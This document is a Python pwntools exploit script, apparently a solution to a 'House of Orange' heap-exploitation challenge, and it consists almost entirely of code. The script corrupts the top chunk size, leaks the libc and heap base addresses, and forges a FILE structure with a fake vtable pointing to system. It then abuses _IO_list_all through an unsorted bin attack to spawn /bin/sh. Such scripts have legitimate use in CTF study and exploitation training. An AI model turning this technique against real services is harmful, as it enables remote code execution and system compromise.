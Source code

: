 ```python
    io.send(Name)
    io.recvuntil('Orange: ')
    io.sendline(str(Price))
    io.recvuntil('Color of Orange: ')
    io.sendline(str(Choice))

#OverWrite TopChunk
build(0x80,'AAAA',1,1)
upgrade(0x100,'B'*0x80+p64(0)+p64(0x21)+p32(0)+p32(0)+2*p64(0)+p64(0xf31),2,2)

#TopChunk->unsorted bin
build(0x1000,'CCCC',3,3)

#leak libc_base 
build(0x400,'D'*8,4,4)
see()
io.recvuntil('Name of house : DDDDDDDD')
libc_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x3c4b20-0x668
system_addr = libc_base+libc.symbols['system']
log.info('system_addr:'+hex(system_addr))
IO_list_all = libc_base+libc.symbols['_IO_list_all']
log.info('_IO_list_all:'+hex(IO_list_all))

#leak heap_base
upgrade(0x400,'E'*0x10,5,5)
see()
io.recvuntil('Name of house : ')
io.recvuntil('E'*0x10)
heap_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x130
log.info('heap_base:'+hex(heap_base))


# unsortedbin attack ,Fsop

vtable_addr = heap_base +0x140

pad =p64(0)*3+p64(system_addr) # vtable
pad = pad.ljust(0x410,"\x00")
pad += p32(6)+p32(6)+p64(0)

stream = "/bin/sh\x00"+p64(0x61)
stream += p64(0xddaa)+p64(IO_list_all-0x10)
stream +=p64(1)+p64(2) # fp->_IO_write_ptr > fp->_IO_write_base
stream = stream.ljust(0xc0,"\x00")
stream += p64(0) # mode<=0
stream += p64(0)
stream += p64(0)
stream += p64(vtable_addr)

payload = pad + stream

upgrade(0x800,payload,6,3)

io.recvuntil('Your choice : ')
io.sendline(str(1))

io.interactive()

```
